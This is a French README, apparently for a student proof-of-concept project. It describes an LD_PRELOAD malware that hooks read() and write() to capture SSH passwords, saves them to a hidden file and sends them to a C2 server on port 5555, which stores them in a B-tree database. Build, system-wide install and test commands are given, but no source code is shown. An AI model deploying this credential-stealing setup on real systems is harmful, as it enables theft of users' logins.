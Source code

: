 ## Auteur
- Angelov Onur et Slimani Anis — ESGI 3SIJ
# README - Malware LD_PRELOAD avec Serveur C2 et Base de Données en C (B-Tree)

Ce projet est un POC complet d’un malware basé sur `LD_PRELOAD`, capable d’intercepter les identifiants SSH d’un utilisateur, de les envoyer à un serveur distant C2, et de les stocker de manière persistante dans une base de données implémentée en C à l’aide d’un B-Tree.

---

## 📁 Structure du projet

```
Project_Root/
├── LD_PRELOAD/         # Malware intercepteur LD_PRELOAD
│   ├── malware.c
│   ├── send_to_c2.c
│   ├── Makefile
│   ├── add_to_ldso.sh
│   └── ...
│
├── server/             # Serveur C2 (Command & Control)
│   ├── server.c
│   ├── server.h
│   ├── Makefile
│   └── ...
│
└── BTreeDB/            # Base de données en C avec B-Tree
     └── ...
```

---

## 💣 Malware LD_PRELOAD

### Fonctionnalités :
- Intercepte les fonctions `read()` et `write()` pour capturer les mots de passe SSH
- Enregistre les identifiants localement dans `/dev/shm/.creds`
- Envoie automatiquement les credentials au serveur C2 via TCP sur le port `5555`
- Bloque l'accès aux fichiers sensibles comme `/etc/passwd`

### Compilation :
```bash
cd LD_PRELOAD
make
```

### Utilisation :
```bash
chmod +x add_to_ldso.sh
./add_to_ldso.sh
```

### Test de bon fonctionnement :
```bash
cat /etc/passwd
sudo cat /etc/passwd
LD_PRELOAD=$PWD/malware.so ssh user@ip_serveur
```

---

## 📡 Serveur Command & Control (C2)

### Installation du serveur SSH (VM C2) :
```bash
sudo apt update
sudo apt install openssh-server
sudo nano /etc/ssh/sshd_config
# Modifier ou ajouter : Port 5555
sudo systemctl enable ssh
sudo systemctl start ssh
```

### Fonctionnalités :
- Écoute sur le port `5555`
- Reçoit les messages de type : `register hostname password`
- Transfère automatiquement les données à la base de données locale (dossier `db_c`)

### Compilation & Exécution :
```bash
cd server
make
./server
```

---

## 🗃️ Base de Données B-Tree en C

Voir README.md dans BTreeDB


---



